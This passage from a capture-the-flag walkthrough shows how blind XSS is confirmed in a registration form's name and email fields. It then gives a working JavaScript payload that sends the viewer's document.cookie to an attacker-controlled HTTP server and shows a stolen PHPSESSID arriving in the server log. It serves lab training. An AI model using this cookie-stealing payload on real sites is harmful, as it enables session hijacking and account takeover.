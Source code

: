 This one goes through, and after waiting a couple moments we get to hits on our http server

```console
┌──(kali㉿kali)-[~/Whats_Your_Name]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.211.158 - - [23/Feb/2025 13:34:00] code 404, message File not found
10.10.211.158 - - [23/Feb/2025 13:34:00] code 404, message File not found
10.10.211.158 - - [23/Feb/2025 13:34:00] "GET /name HTTP/1.1" 404 -
10.10.211.158 - - [23/Feb/2025 13:34:00] "GET /email HTTP/1.1" 404 -
```

It looks like both the name and email rows are vulnerable to xss, to exploit this we can try stealing the cookies of whoever is viewing the registrations

To do this lets open another http server this time on port 8080

```console
┌──(kali㉿kali)-[~/Whats_Your_Name]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Now we can use this javascript code to have them send their cookies to our http server

```html
<script>document.write('<img src="http://MACHINE_IP:8080?cmd='+document.cookie+'"witdh=0 hight=0 border=0 />');</script>
```

Now enter this into either the name or email row and send the form

![XSS Exploit](/assets/img/CTFs/Whats_Your_Name/xss_exploit.jpg)

Wait a few moments and we should get a hit on our http server

```console
┌──(kali㉿kali)-[~/Whats_Your_Name]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.95.162 - - [23/Feb/2025 13:45:00] "GET /?cmd=PHPSESSID=453tet80nn6fpfo60t1tm1lmhk HTTP/1.1" 200
```

